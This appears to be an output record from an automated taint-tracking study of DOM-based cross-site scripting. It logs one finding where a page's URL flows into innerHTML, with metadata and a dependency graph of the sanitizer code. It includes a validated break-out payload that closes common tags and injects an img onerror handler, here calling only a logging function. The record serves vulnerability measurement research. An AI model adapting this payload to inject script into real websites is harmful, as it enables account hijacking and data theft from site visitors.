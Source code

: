 // Finding: 95bb8011-6f51-4ebb-b400-4c5c75da62da
// Finding.url: https://www.example72.com/coronavirus/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('8c246a6b128449849697d8d0ab2ef6db')><!--/*
// Finding.parentloc: https://www.example72.com/coronavirus/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('8c246a6b128449849697d8d0ab2ef6db')><!--/*
// Finding.domain: www.example72.com
// Finding.base_domain: example72.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 273
// Finding.end: 353
// Finding.original_uuid: 0fc8f7df-5168-44ed-84f7-96374a8afc52
// Finding.TwentyFiveMillionFlowsId: 420132770
// Finding.script: https://www.example72.com/assets/javascript/jquery-3.4.1.min.js
// Finding.line: 2
// Exploit.uuid: 8c246a6b-1284-4984-9697-d8d0ab2ef6db
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: C
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: #</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 15
// Exploit.end_taint_url: 16
// Exploit.replace_begin_url: 33
// Exploit.replace_end_url: 33
// Exploit.replace_begin_param: 160
// Exploit.replace_end_param: 160
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 286204396
// DepGraph.sanitizer_hash: -463482283
// Merged split and join statements 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /(\?.*)$/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="preg_replace"];
n6 [shape=box, label="RegExp: /\//"];
n7 [shape=box, label="Lit: /"];
n8 [shape=box, label="Var: x"];
n9 [shape=box, label="Var: x"];
n10 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n8 -> n1;
n5 -> n6;
n5 -> n7;
n5 -> n8;
n9 -> n5;
n10 -> n9;
}